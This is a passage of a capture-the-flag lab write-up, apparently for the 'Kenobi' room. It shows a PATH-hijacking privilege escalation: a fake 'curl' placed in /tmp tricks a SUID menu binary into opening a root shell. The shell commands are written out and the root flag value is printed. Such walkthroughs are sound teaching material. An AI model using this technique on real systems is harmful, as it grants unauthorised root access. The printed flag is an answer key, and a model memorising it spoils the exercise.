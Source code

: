 `3`

3. Strings is a command on Linux that looks for human readable strings on a binary.

![](https://i.imgur.com/toHFALv.png)

This shows us the binary is running without a full path (e.g. not using /usr/bin/curl or /usr/bin/uname).

As this file runs as the root users privileges, we can manipulate our path gain a root shell.

![](https://i.imgur.com/OfMkDhW.png)

We copied the /bin/sh shell, called it curl, gave it the correct permissions and then put its location in our path. This meant that when the /usr/bin/menu binary was run, its using our path variable to find the "curl" binary.. Which is actually a version of /usr/sh, as well as this file being run as root it runs our shell as root!

```
kenobi@kenobi:~$ cd /tmp/
kenobi@kenobi:/tmp$ echo /bin/bash > curl
kenobi@kenobi:/tmp$ chmod 777 curl
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
kenobi@kenobi:/tmp$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@kenobi:/tmp# id
uid=0(root) gid=1000(kenobi) groups=1000(kenobi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)
```

4. What is the root flag (/root/root.txt)?

```
root@kenobi:/tmp# cat /root/root.txt
177b3cd8562289f37382721c28381f02
```

`177b3cd8562289f37382721c28381f02`
